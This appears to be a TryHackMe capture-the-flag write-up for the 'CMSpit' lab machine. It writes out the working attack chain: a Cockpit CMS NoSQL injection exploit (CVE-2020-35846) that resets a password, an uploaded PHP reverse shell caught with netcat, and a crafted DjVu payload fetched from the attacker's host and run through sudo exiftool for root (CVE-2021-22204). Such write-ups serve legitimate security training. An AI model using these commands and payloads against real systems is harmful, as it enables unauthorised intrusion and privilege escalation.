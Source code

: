 ```yaml
---
layout: post
title: "CMSpit"
date: 2022-10-22
categories: [Tryhackme, Easy-THM]
tags: [Cockpit, CVE-2020-35846, reverse-shell, exiftool, CVE-2021-22204]
image: ../../assets/img/posts/cmspit.png 

---
```


## Description

This is a machine that allows you to practise web app hacking and privilege escalation using recent vulnerabilities.

|**Room**|[Vulnversity](https://tryhackme.com/room/cmspit)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Medium|
|**Creator**|[stuxnet](https://tryhackme.com/p/stuxnet)|

---

Starting off with deploying the machine, exporting IP and quickly scanning the open ports with rustscan,

```bash
export IP=10.10.121.198
rustscan -a $IP --range 0-65535 --ulimit 5000 -- -sVC -oN nmap.log
```

![image](https://user-images.githubusercontent.com/67465230/187490179-cc9125c1-ab54-496b-9586-7f20f9d0c0fa.png)

Scan results shows that port 22 (ssh), 80 (http) ports are open. The OS running is Ubuntu. 

Since this machine has port 80 opened, let's start the enumeration of the website. Visit http://10.10.231.15/, and we will get redirected to `/auth/login?to=/` page. This is a Cockpit CMS, and we have a login webpage,

![image](https://user-images.githubusercontent.com/67465230/187490190-f7844eea-c922-43c3-9172-73257bfb646d.png)

Looking at the source code of the webpage will show me the version of the JS library used here, which is 0.11.1,

![image](https://user-images.githubusercontent.com/67465230/187490196-c00c988d-747c-491d-811a-286f82111f80.png)

Scrolling down the source code a bit, and I found that there is a `/auth/check` page,

![image](https://user-images.githubusercontent.com/67465230/187490207-7f7728c7-b7c8-4213-9814-32d4c99792c5.png)

Now, I check if there was any matching exploit, and yes there is [Cockpit CMS 0.11.1 - 'Username Enumeration & Password Reset' NoSQL Injection](https://www.exploit-db.com/exploits/50185). Now, I dig into this CVE, and found the actual CVE of this exploit on NVD Database.

> [CVE-2020-35846](https://nvd.nist.gov/vuln/detail/CVE-2020-35846) : Agentejo Cockpit before 0.11.2 allows NoSQL injection via the Controller/Auth.php check function.

Now, searching for the same exploit on our local system via `searchsploit`. Scrolling down the exploit, and I found that there is a particular endpoint on the URL where `/auth/resetpassword` where the password get's reset (maybe the exploit do this for us??),

![image](https://user-images.githubusercontent.com/67465230/187727425-f7d01652-ad56-4324-919e-87ed899f2d0c.png)

Now, let's see how we can access the help menu of this exploit,

```bash
python cockpit_cms_0.11.1_exploit.py -h
```

![image](https://user-images.githubusercontent.com/67465230/187490226-80820cdc-680a-47ae-a556-53138c125c41.png)

Now since we have identified how we can run this exploit, let's fire this exploit up!

```bash
python cockpit_cms_0.11.1_exploit.py -u http://10.10.231.15
```

![image](https://user-images.githubusercontent.com/67465230/187727158-fa3eefef-cea8-4ed5-9f2b-3ca6a867d5ce.png)
![image](https://user-images.githubusercontent.com/67465230/187727182-bd6161aa-7f2e-406e-9ee1-08b57348eae3.png)

After running the exploit, it will ask us to enter the username we want the details off, and it will also change the password to credentials. We can head over to the login page, enter the temporary credentials, and we in the website,

![image](https://user-images.githubusercontent.com/67465230/187727202-a57bab76-0e51-4d38-a44e-7562cd10c522.png)

Now, roaming around the website, and I stumbled to this webpage, where everything seems so have writable access,

![image](https://user-images.githubusercontent.com/67465230/187727219-d210d320-a1f5-4f41-82e8-8ee8c3592d92.png)

Okay, so I think there is some space in that directory where we can do something sp00ky. Let's download the payload php-reverse-shell.php,

```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```

Now, start the netcat listener using `nc -nvlp 4444`, and paste the following URL, http://cmspit.thm/php-reverse-shell.php,

![image](https://user-images.githubusercontent.com/67465230/187962097-7791c5c5-c14f-4f48-8d93-43fc0465799e.png)

Yayy! We got shell on the machine! But since it is not TTY right now, we need to get the full-fledge terminal before we move forward! Using the commands below, we can get the TTY shell,

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm-256color
CTRL + Z
stty raw -echo; fg
stty rows 38 columns 116
```

Now, we navigated to **stux**'s home directory. There I found some files like .mongorc.js, .dbshell, user.txt, etc. 

![image](https://user-images.githubusercontent.com/67465230/187962120-0c207a70-934b-486c-825b-b7f0146f0fd1.png)

Let's take a look at **.dbshell** file and see what is present there! 

![image](https://user-images.githubusercontent.com/67465230/187962132-cd423a2c-100f-4500-a868-648bafa73033.png)

Reading the content of the file shows that there are credentials of the stux user (it is really a bad practice indeed!), along with the THM flag (which concerns me very less!).

Now,  let's quickly switch to **stux** user using `su` command,

```bash
su stux
```

![image](https://user-images.githubusercontent.com/67465230/187962152-7181ee84-8bbe-40df-ab5c-e221c45b8732.png)

Now comes the privilege escalation where I need to search those binaries which I can run as root user without providing the root user password,

```bash
sudo -l
```

![image](https://user-images.githubusercontent.com/67465230/187962165-f535f0c0-a851-4a68-9903-07162c47307d.png)
Indeed there is one binary that is placed in **/usr/local/bin/exiftool** which we can run it as root without providing the root user password.

Now, I went over the google and search for the **exiftool sudo privilege escalation cve**, and it showed me some of the results on how can we abuse exiftool binary to obtain root user,

![image](https://user-images.githubusercontent.com/67465230/187962184-edf87a71-5930-4390-a3c6-a642f8782848.png)

There are several blog post that shows how we can abuse exiftool binary, but by far, I found the one which is more interesting than all others.

> [!FAQ]
> [CVE-2021-22204](https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/) : ExifTool could allow a local attacker to execute arbitrary code on the system, caused by improper neutralization of user data in the DjVu file format. By using a specially-crafted image file, an attacker could exploit this vulnerability to execute arbitrary code on the system.

After reading the blog, we need to install some binaries/dependencies on our local system in order to generate the payload required to abuse the functionalities,

```bash
sudo apt install djvulibre-bin # installing necessary tool
bzz payload payload.bzz # Compress our payload file with to make it non human-readable
djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz 
# INFO = Anything in the format 'N,N' where N is a number
# BGjp = Expects a JPEG image, but we can use /dev/null to use nothing as background image
# ANTz = Will write the compressed annotation chunk with the input file
```

On our local machine, let's create a payload with the content of `(metadata "\c${system('/bin/bash')};")`. Start python server with `python3 -m http.server`, and download the exploit file on the remote machine using the command below,

```bash
wget http://10.8.187.47:8000/exploit.djvu
```

Now, using the command below, we can easily abuse the functionality of the exiftool to obtain root user,

```bash
sudo /usr/local/bin/exiftool exploit.djvu
```

![image](https://user-images.githubusercontent.com/67465230/188279429-0e4465ae-0763-444e-965c-1a760d0cacd4.png)
